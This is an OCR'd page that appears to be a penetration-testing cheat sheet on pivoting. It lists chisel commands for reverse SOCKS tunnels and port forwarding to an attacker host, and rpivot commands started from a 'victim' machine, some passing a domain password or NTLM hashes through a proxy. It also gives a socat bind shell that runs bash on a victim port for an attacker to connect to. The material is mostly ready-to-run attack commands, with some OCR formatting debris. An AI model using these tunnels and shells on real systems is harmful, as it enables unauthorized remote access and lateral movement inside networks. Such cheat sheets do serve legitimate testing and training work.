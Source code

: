 You can download it from the releases page of  <ins>https://github.com/jpillora/chisel</ins>  You need to use the  **same version for client and server**

## socks<ins></ins>

|     |     |
| --- | --- |
| 1<br><br>2<br><br>3 | `.``/chisel` `server -p 8080 --reverse` `#Server`<br><br>`.``/chisel-x64``.exe client 10.10.14.3:8080 R:socks` `#Client`<br><br>`#And now you can use proxychains with port 1080 (default)` |

## Port forwarding<ins></ins>

|     |     |
| --- | --- |
| 1<br><br>2 | `.``/chisel_1``.7.6_linux_amd64 server -p 12312 --reverse`<br><br>`.``/chisel_1``.7.6_linux_amd64 client 10.10.14.20:12312 R:4505:127.0.0.1:4505` |

# Rpivot<ins></ins>

<ins>https://github.com/klsecservices/rpivot</ins>

Reverse tunnel. The tunnel is started from the victim. A socks4 proxy is created on 127.0.0.1:1080

|     |     |
| --- | --- |
| 1   | `attacker> python server.py --server-port 9999 --server-ip 0.0.0.0 --proxy-ip 127.0.0.1 --proxy-port 1080` |

|     |     |
| --- | --- |
| 1   | `victim> python client.py --server-ip <rpivot_server_ip> --server-port 9999` |

Pivot through  **NTLM proxy**

|     |     |
| --- | --- |
| 1   | `victim> python client.py --server-ip <rpivot_server_ip> --server-port 9999 --ntlm-proxy-ip <proxy_ip> --ntlm-proxy-port 8080 --domain CONTOSO.COM --username Alice --password P@ssw0rd` |

|     |     |
| --- | --- |
| 1   | `victim> python client.py --server-ip <rpivot_server_ip> --server-port 9999 --ntlm-proxy-ip <proxy_ip> --ntlm-proxy-port 8080 --domain CONTOSO.COM --username Alice --hashes 9b9850751be2515c8231e5189015bbe6:49ef7638d69a01f26d96ed673bf50c45` |

# **Socat**<ins></ins>

<ins>https://github.com/andrew-d/static-binaries</ins>

## Bind shell<ins></ins>

|     |     |
| --- | --- |
| 1<br><br>2 | `victim> socat TCP-LISTEN:1337,reuseaddr,fork EXEC:``bash``,pty,stderr,setsid,sigint,sane`<br><br>``attacker> socat FILE:` ```tty``` `,raw,```echo``=0 TCP:<victim_ip>:1337` |
